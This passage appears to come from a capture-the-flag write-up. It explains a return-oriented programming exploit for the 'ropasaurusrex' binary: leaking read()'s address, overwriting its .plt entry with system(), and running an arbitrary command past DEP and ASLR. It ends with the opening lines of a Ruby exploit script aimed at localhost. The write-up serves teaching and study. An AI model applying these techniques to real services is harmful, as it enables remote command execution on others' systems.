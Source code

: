 ```
|      void *buf       | - writeable memory
+----------------------+
|        int fd        | - 0 (stdin)
+----------------------+
|(address of poppopret)|
+----------------------+

+----------------------+
|        [...]         |
+----------------------+
```

Holy smokes, what's going on!?

Let's start at the bottom and work our way up! I tagged each frame with a number for easy reference.

Frame \[1\] we've seen before. It writes <tt>cmd</tt> into our writable memory. Frame \[2\] is a standard pop/pop/pop/ret to clean up the <tt>read()</tt>.

Frame \[3\] uses <tt>write()</tt> to write the address of the <tt>read()</tt> function to the socket. Frame \[4\] uses a standard pop/pop/pop/ret to clean up after <tt>write()</tt>.

Frame \[5\] reads another address over the socket and writes it to memory. This address is going to be the address of the <tt>system()</tt> call. The reason writing it to memory works is because of how <tt>read()</tt> is called. Take a look at the <tt>read()</tt> call we've been using in gdb (<tt>0x0804832C</tt>) and you'll see this:

```

<span class="lnr">1 </span><span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span> x/i 0x0804832C
<span class="lnr">2 </span>0x804832c <span class="Statement"><</span><span class="Statement">read</span>@plt<span class="Statement">></span>:   jmp    DWORD PTR ds:0x804961c
```

<tt>read()</tt> is actually implemented as an indirect jump! So if we can change what <tt>ds:0x804961c</tt>'s value is, and still jump to it, then we can jump anywhere we want! So in frame \[3\] we read the address from memory (to get the actual address of <tt>read()</tt>) and in frame \[5\] we write a new address there.

Frame \[6\] is a standard pop/pop/pop/ret construct, with a small difference: the return address of the pop/pop/pop/ret is <tt>0x804832c</tt>, which is actually <tt>read()</tt>'s <tt>.plt</tt> entry. Since we overwrote <tt>read()</tt>'s <tt>.plt</tt> entry with <tt>system()</tt>, this call actually goes to <tt>system()</tt>!

## Final code

Whew! That's quite complicated. Here's code that implements the full exploit for ropasaurusrex, bypassing both dep and aslr:

```

<span class="lnr"> 1 </span><span class="PreProc">require</span> <span class="Special">'</span><span class="Constant">socket</span><span class="Special">'</span>
<span class="lnr"> 2 </span>
<span class="lnr"> 3 </span>s = <span class="Type">TCPSocket</span>.new(<span class="Special">"</span><span class="Constant">localhost</span><span class="Special">"</span>, <span class="Constant">4444</span>)
<span class="lnr"> 4 </span>
<span class="lnr"> 5 </span><span class="Comment"># The command we'll run</span>
<span class="lnr"> 6 </span>cmd = <span class="Identifier">ARGV</span>[<span class="Constant">0</span>] + <span class="Special">"</span><span class="Special">\0</span><span class="Special">"</span>
<span class="lnr"> 7 </span>
<span class="lnr"> 8 </span><span class="Comment"># From objdump -x</span>
<span class="lnr"> 9 </span>buf = <span class="Constant">0x08049530</span>
<span class="lnr">10 </span>
```
